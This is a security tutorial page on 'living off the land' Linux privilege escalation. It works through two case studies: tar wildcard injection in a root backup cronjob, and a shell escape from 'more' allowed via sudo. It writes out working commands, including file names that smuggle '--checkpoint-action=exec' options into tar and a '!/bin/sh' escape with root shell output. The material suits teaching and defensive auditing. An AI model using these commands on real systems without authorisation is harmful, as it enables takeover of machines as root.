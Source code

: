 # Living off the land

### Theory

Living of the Land is a well known privilege escalation technique, where an attacker will leverage binaries found on the attacked machine to perform a privilege escalation. Indeed, many UNIX programs have options that can be exploited to open a shell. Therefore if we can start the program we exploit as another user, we might be able to open a shell as this user ! 

Most of the payloads to do this can be found here : [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/tar/#shell)

Here are two case study to better understand the principle of these privilege escalations :

### Case study 1 : Privesc using tar and a cronjob

Imagine a scenario where a script backups a directory \(that we can control\) on the server each hour using `tar` like this :

```text
#!/bin/bash

mkdir -p /backups/
cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
```

Notice this interesting pattern `tar czvf file.tar.gz *` in the script. This is a security vulnerability because of how UNIX shells handles wildcards. Let's see an example with the `ls` command :

```text
$ ls -lha
total 84K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
$ ls *
file1  file2  file3

$ echo '' > '-lha'
$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
-rw-rw-r--  1 user user    1 avril 27 22:32 -lha
$ ls *
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
```

The shell wildcards are resolved by the shell, and not by the command. This means filenames can be treated as options if they are starting with a `-`. In our previous example, we added a file called `-lha` into the folder. When we type `ls *`, the shell replaces the `*` by all matching files in the current directory, and therefore our command becomes `ls file1 file2 file3 -lha`. After the wildcard resolution, the shell executes the command with our options.

Now if we get back to our script creating a backup of a directory each our with `tar *`, we see that tar have legitimate options allowing execution of a program. You can find them here :

* [https://gtfobins.github.io/gtfobins/tar/\#shell](https://gtfobins.github.io/gtfobins/tar/#shell)

To use these options in our exploit, we jut need to create these two files in our directory, as well as the `exploit.sh` file, containing the command we want to run when we trigger the execution :

```text
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh exploit.sh'

$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    1 avril 27 22:31 '--checkpoint=1'
-rw-rw-r--  1 user user    1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
-rwxrwxrwx  1 user user  784 avril 27 22:32 exploit.sh
```

We are now ready ! We just need to wait until the directory is backup again, and it will trigger our payload and execute `exploit.sh` file!

### Case study 2 : Privesc using more and sudo

Let's take an example, with this `sudo` configuration :

```text
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on PC1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on PC1:
    (ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log
```

In this case `user` can run the `more` command, but only to read a specific log file `/var/log/apache2/access.log` as `root` without password \(`NOPASSWD` flag\) : 

```text
sudo -u root /usr/bin/more /var/log/apache2/access.log
```

You can assume this would be safe right ? Unfortunately, it's not. The `more` command has various useful options, one of them is `!`. When you're in `more` and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type `!/bin/sh` in `more`, you will open a shell as the owner of the parent `more` process !

```text
$ sudo -u root /usr/bin/more /var/log/apache2/access.log
File content line 1
File content line 2
...
File content line n
------------------------
!/bin/sh
# 
uid=0(root) gid=0(root) groups=0(root)
# 
```

